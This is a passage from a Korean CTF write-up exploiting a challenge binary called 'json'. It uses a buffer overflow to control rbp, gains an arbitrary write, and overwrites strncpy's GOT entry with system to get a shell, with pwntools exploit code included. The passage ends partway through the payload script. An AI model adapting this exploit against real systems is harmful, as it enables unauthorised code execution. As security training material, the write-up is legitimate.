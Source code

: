 ``` text
.text:0000000000402176  mov     rsi, rcx        ; src
.text:0000000000402179  mov     rdi, rax        ; dest
.text:000000000040217C  call    _strncpy
.text:0000000000402181  nop
.text:0000000000402182  leave
.text:0000000000402183  retn
```
`read`의 인자인 `rsi`가 `rbp`를 통해 설정되는데, BOF를 통해 `rbp`는 얼마든지 컨트롤 할 수 있으므로 AAW도 가능한 상황이다.

여기에서 GOT overwrite를 생각했고, `strncpy`의 `rdi`가 `session->memo`로 설정되는 것을 이용하여 미리 `/bin/sh`를 넣어두면 쉘 실행이 가능할 것으로 판단했다.
``` python
    read_strncpy_gadget = 0x40214C
    payload = b"/bin/sh\n" * 2
    payload += p64(elf.got['strncpy'] + 0x10)   # rbp
    payload += p64(read_strncpy_gadget)         # ret
    update_memo(s, token, payload)

    sleep(0.5)
    payload = p64(0x4010a0)                     # system
    s.send(payload)
```

## 0x03. Payload
``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
from time import sleep
from argparse import ArgumentParser

BINARY = "json"
LIBRARY = "libc.so.6"
CONTAINER = "f0268ff749ca"

code_base = 0x555555554000
bp = {
    'main' : code_base + 0x16ae,
}

gs = f'''
b *update_memo
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def create_session(s, user, pw):
    json = f"{{method:CreateSession,user:{user},pass:{pw}}}"
    s.send(json.encode())
    return s.recvuntil(b"}\n")

def clear_session(s):
    json = f"{{method:ClearSession}}"
    s.send(json.encode())
    return

def create_user(s, token, user, pw, memo):
    json = f"{{token:{token},method:CreateUser,user:{user},pass:{pw},memo:{memo}}}"
    s.send(json.encode())
    return

def check_user(s, token):
    json = f"{{token:{token},method:CheckUser}}"
    s.send(json.encode())
```